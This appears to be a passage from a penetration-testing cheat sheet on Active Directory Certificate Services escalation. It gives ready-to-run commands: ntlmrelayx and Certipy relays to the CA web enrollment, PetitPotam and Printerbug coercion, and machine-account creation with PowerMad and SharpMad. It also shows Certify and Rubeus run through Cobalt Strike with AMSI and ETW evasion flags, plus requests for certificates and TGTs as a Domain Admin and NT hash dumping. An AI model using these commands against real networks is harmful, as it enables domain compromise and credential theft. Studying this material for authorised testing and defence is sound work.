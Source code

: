    * If HTTP-based certificate enrollment interfaces are enabled, they are most likely vulnerable to NTLM relay attacks. The domain controller's NTLM credentials can then be relayed to the AD CS web enrollment and a DC certificate can be enrolled. This certificate can then be used to request a TGT and perform a DCSync.
* Example:
   * `ntlmrelayx -t "http://<ca-server>/certsrv/certfnsh.asp" --adcs --template <template>`
   * Then force authentication to your host, for example via Printerbug, Petitpotam, or Coercer.
* Notes
   * In some cases, domain computers are allowed to request certificates (instead of domain users). If the "ms-ds-MachineAccountQuota" is set to > 1, it is possible to create a computer account yourself with PowerMad or SharpMad. Then you can request a TGT for this machine account using Rubeus. And then request a certificate with an altname (so a Domain Admin) using Certify.
   * Option 1 - `PowerMad: New-MachineAccount -MachineAccount <computername> -Password $(ConvertTo-SecureString '<pass>' -AsPlainText -Force)`
   * Option 2 - `SharpMad: Sharpmad.exe MAQ -Action new -MachineAccount <computername> -MachinePassword <pass>`
* Cobalt Strike
   * Check vulnerable for certificate templates
      * `inlineExecute-Assembly --dotnetassembly Certify.exe --assemblyargs find /vulnerable --amsi --etw`
   * Request certificate with alternative name
      * `inlineExecute-Assembly --dotnetassembly Certify.exe --assemblyargs request /ca:<server\ca-name> /template:<template> /altname:<domain>\<da> --amsi --etw`
      * Note that you can use the `/subject:CN=...` flag if the subject name contains too many characters.
   * Convert pem to pfx
      * `openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`
   * Upload the pfx
   * Request TGT
      * `inlineExecute-Assembly --dotnetassembly Rubeus.exe --assemblyargs asktgt /user:<da> /certificate:C:\Windows\Tasks\cert.pfx /password:<pfx_password> /ptt --amsi --etw`
   * Verify
      * `ls \\dc1.bamisoup.com\c$`

* Certipy - ESC1
  * https://github.com/ly4k/Certipy
  * Check vulnerable for certificate templates
    * `certipy find -u <user> -p <pass> -dc-ip <ip> -vulnerable`
  * Request certificate with alternative name
    * `certipy req -u <user> -p <pass> -ca <ca-name> -target <servername> -template <template> -upn <da>`
  * Authenticate (dumps NT hash and TGT)
    * `certipy auth -pfx administrator.pfx -dc-ip <ip>`
* Certipy - ESC8
  * Start relay
    * `certipy relay -ca <ca-server>`
  * Then force authentication to your host, for example via Printerbug, Petitpotam, or Coercer.
  * Authenticate (dumps NT hash and TGT)
    * `certipy auth -pfx <dc>.pfx -dc-ip <ip>`

